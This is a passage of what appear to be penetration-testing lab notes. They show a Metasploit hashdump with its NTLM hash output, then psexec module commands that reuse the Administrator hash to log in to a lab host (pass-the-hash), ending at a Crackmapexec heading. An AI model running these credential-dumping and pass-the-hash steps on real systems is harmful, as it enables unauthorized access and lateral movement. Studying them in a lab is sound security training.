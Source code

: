 ```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

- LM+NTLM hash is necessary, so copy the string:

`aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`

- **Use PSExec to login with `Administrator` user and its password hashes**

```bash
background
search psexec
use exploit/windows/smb/psexec
options
sessions
# change Payload options
set LPORT 4422
set RHOSTS 10.2.23.202
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
# set target Native\ upload
exploit
```

```bash
getuid
sysinfo
```

![](assets/image-20230318112152450.png)

### Crackmapexec
